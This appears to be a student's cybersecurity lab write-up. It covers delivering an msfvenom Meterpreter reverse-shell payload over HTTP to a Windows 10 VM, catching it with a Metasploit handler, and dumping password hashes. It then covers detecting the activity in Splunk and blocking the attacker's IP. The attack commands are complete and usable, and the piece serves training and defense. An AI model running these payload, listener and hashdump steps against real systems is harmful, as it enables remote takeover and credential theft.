







# Lab 01 — Payload Delivery, Meterpreter Access & SIEM Detection

## Environment
| Component | Details |
|          |         |
| Attacker | Kali Linux 2026.1 — 192.168.56.103 |
| Target | Windows 10 VM — 192.168.56.101 |
| SIEM | Splunk Enterprise 10.4.0 |
| Date | June 27-28, 2026 |

## Attack Overview
Kali Linux → msfvenom payload → HTTP Server → Windows 10 executes → Meterpreter Session Opened

## Phase 1 — Payload Creation
Created a malicious executable using msfvenom.

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=4444 -f exe -o payload.exe

---

## Phase 2 — HTTP Delivery Server
Hosted payload via Python HTTP server.

cd /home/kali
python3 -m http.server 8080

Target downloaded from: http://192.168.56.103:8080/payload.exe

---

## Phase 3 — Metasploit Listener
Set up handler to catch the connection.

use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.103
set LPORT 4444
exploit

---

## Phase 4 — Meterpreter Session Opened
Successfully gained access to Windows 10 target.

Meterpreter session 1 opened
192.168.56.103:4444 → 192.168.56.101

---

## Phase 5 — Post Exploitation

getuid
sysinfo
hashdump

---

## Phase 6 — Detection in Splunk SIEM
108 security events captured during attack.

index=* (EventCode=4688 OR EventCode=4624) | table _time EventCode Account_Name Process_Name

| EventCode | Description | Count |
|-----------|-------------|-------|
| 4624 | Successful Logon | Detected |
| 4688 | Process Creation | Detected |

---

## Phase 7 — Incident Response & Defense
Blocked attacker IP via Windows Firewall.

netsh advfirewall firewall add rule name="Block Attacker" dir=in action=block remoteip=192.168.56.103

---

## What I Learned
- Creating reverse shell payloads with msfvenom
- Delivering payloads via HTTP server
- Setting up Metasploit multi/handler
- Post-exploitation enumeration
- Detecting attacks using Splunk SIEM
- Analyzing Windows Security Event Logs
- Incident response with Windows Firewall

## Defense Recommendations
- Never execute unknown .exe files
- Enable Windows Defender at all times
- Monitor EventCode 4688 — Process Creation
- Monitor EventCode 4624 — Logon Events
- Block suspicious IPs immediately
- Use application whitelisting
- Keep systems patched and updated

## Tools Used
| Tool | Purpose |
|------|---------|
| Nmap | Network reconnaissance |
| msfvenom | Payload creation |
| Metasploit | Exploitation framework |
| Splunk | SIEM & log analysis |
| Windows Firewall | Defense & blocking |
